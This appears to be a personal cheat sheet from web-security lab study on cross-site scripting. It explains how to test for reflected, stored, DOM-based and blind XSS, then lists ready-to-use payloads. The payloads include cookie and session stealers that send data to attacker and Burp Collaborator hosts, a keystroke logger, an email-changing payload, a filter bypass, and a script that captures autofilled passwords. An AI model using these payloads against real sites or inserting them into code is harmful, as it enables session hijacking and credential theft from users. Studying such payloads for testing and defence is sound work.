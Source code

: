    ###  XSS
  - How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

    Parameters in the URL Query String
    URL File Path
    Sometimes HTTP Headers (although unlikely exploitable in practice)
  - How to test for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

    Comments on a blog
    User profile information
    Website Listings
  - How to test for Dom Based XSS:


DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.


When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as eval().

  - How to test for Blind XSS:


When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.


A popular tool for Blind XSS attacks is xsshunter. Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.
  - To get cookie <script>document.location="attacker-domain"+document.cookie</script>, and then check log
  - If html injection, but script not alerting maybe use payload <iframe src="javascript:alert(`xss`)">
  - session stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
  - Key Logger:<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
  - Business Logic: <script>user.changeEmail('attacker@hacker.thm');</script>
  - bypass script string replace <sscriptcript>alert('THM');</sscriptcript>
  - on image tag, /images/cat.jpg" onload="alert('THM');

### XSS payload
 - steal cookies<script>
fetch("https://28871y2murqilrzo0kexuhsd74du1j.burpcollaborator.net",{
method:"POST","mode": "no-cors", body:document.cookie,
})
</script>
 - steal password autofill <input name=user id=user>
<input name=pass id=pass 
onchange="if(this.value.length)fetch('https://f4kkxbyzq4mvh4v1wxaaquoq3h99xy.burpcollaborator.net', {method: 'POST', mode:'no-cors',body: user.value+' '+this.value}),">
